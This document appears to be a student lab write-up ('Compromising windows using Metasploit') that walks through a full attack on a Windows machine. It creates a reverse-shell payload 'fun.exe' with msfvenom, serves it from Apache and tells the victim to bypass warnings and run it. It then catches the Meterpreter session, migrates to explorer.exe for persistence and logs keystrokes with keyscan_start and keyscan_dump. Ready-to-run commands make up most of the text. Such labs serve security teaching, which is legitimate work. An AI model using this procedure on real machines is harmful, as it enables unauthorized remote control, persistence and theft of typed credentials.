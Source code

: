 # EX 06: COMPROMISING-WINDOWS-USING -METASPLOIT:
Compromising windows using Metasploit
## Metasploit
Compromising windows using Metasploit

## AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig

## OUTPUT:
![alt text](SCREENSHOT/image.png)
```
Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
```
## OUTPUT:
![alt text](SCREENSHOT/image-1.png)
```
copy the fun.exe into the apache /var/www/html folder
```
## OUTPUT:
![alt text](SCREENSHOT/image-2.png)

```
Start apache server
sudo systemctl apache2 start
```
## OUTPUT:
![alt text](SCREENSHOT/image-3.png)
```
Check the status of apache2
```
## OUTPUT:
![alt text](SCREENSHOT/image-4.png)
```
Invoke msfconsole:
```
## OUTPUT:
![alt text](SCREENSHOT/image-5.png)

```
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
```

![alt text](SCREENSHOT/image-6.png)
```
Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
```

![alt text](SCREENSHOT/image-7.png)
```
On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
```

![alt text](SCREENSHOT/image-8.png)
```
Bypass any warning boxes, double-click the file, and allow it to run.
```


![alt text](SCREENSHOT/image-9.png)
```
On kali give the command exploit
```


![alt text](SCREENSHOT/image-10.png)
```
To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156
```

![alt text](SCREENSHOT/image-11.png)

```
The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:
migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 
```

![alt text](SCREENSHOT/image-12.png)

```
Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
```

![alt text](SCREENSHOT/image-13.png)

![alt text](SCREENSHOT/image-14.png)
```
keyscan_dump	Shows the keystrokes captured so far
```

![alt text](SCREENSHOT/image-15.png)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
